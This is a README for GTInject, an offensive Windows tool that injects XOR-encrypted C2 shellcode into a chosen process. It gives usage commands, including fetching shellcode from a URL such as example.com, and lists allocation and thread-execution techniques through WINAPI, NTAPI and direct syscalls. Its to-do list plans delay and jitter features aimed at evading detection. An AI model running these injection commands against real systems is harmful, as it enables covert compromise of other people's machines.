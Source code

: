 # GTInject
**Portable and Modular Process Injection**

Process injection in C2 frameworks are often limited to one or two techniques built by the beacon developer. This tool is designed to offer mix and match memory allocation and thread execution techniques for process injection, with the goal of being portable accross C2 systems. 

It is largely inspired by the flexibility given within Brute Ratel, which made other C2 injection options feel extremely limited. I wanted to recreate that functionality for other C2s that I like using. 



## GTInject.exe Help Menu

## Usage: GTInject.exe \<module> \<moduleArgs>
       GTInject.exe threads
       GTInject.exe encrypt pathToSource.bin MySecretXorKey
       GTInject.exe inject memoryOption execOption xorkey binSrcType binSourcePath PID TID

       GTInject.exe inject 100 100 SecretKey123 disk "C:\path\to\xordShellcode.file" 1234 321

## Encrypt  -- for encrypting shellcode:
**Do this in preparation, NOT on the C2 victim machine.**

       GTInject.exe encrypt pathToSource.bin MySecretXorKey

Shellcode from your C2 will be multibyte XOR'd and written in various formats.

This is intended to help you use the injection option later with better OpSec.

## Threads  -- check for alertable threads:

       GTInject.exe threads


This will list all threads and their current execution state.

This is intended to help identify alertable threads, for injection options like QueueUserAPC.
It will show processes you have access to, and any threads in the following states:
- Wait
- Suspended
- Delay Execution



## Inject   -- choose a process injection method

       GTInject.exe inject memoryOption execOption xorkey binSrcType binSourcePath PID TID

       GTInject.exe inject 100 100 SecretKey123 disk "C:\path\to\xordShellcode.file" 1234 321

Choose a technique for allocating the memory from your options below.

Then choose a technique for executing the thread from your options below.

Enter the XorKey to decrypt it with, the same one you used to encrypt the shellcode earlier.

Specify a location type where the encrypted shellcode is stored. Acceptable values are
- disk
- url
- embedded

Specify the path to that shellcode
- "C:\path\to\shellcode.file"
- https://example.com/shellcode.b64file
- 0 (embedded)

Specify the PID you want to inject into.

OPTIONALLY specify the TID (not all options need a Thread ID).

## Call Categories
- 100 Series - WINAPI
- 200 Series - NTAPI 
- 300 Series - Syscalls
- 400 Series - Misc Techniques

## Memory Options
        100. WINAPI  -- VirtualAllocEx, WriteProcessMemory
        200. NTAPI   -- NtCreateSection, NtMapViewOfSection, RtlCopyMemory
        201. NTAPI   -- NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory
        300. SysCall -- Direct, NtAllocateVirtualMemory, NtProtectVirtualMemory, NtWriteVirtualMemory 


## ThreadExec Options
        100. WINAPI  -- CreateRemoteThread
        101. WINAPI  -- QueueUserAPC, ResumeThread
        200. NTAPI   -- NtCreateThreadEx
        201. NTAPI   -- RtlCreateUserThread
        202. NTAPI   -- NtQueueApcThread, NtResumeThread
        300. SysCall -- Direct, NtCreateThreadEx
        301. SysCall -- Direct, NtQueueApcThread, NtResumeThread

# ToDo
* Obvious add more techniques
* In the Alertable Threads function - bring in integrity - filter based on AppContainers - have option to show all anyway
* Better ReadMe
* Add Sleep / Delay function, determine where delay should happen ... set to 30 seconds, memory allocation will happen, wait 30, then exec option will proceed. or between each API call? add Jitter/multiplier? so user selects 10 seconds, 3x and it will wait at least 10 seconds, and up to 30 seconds between execution?

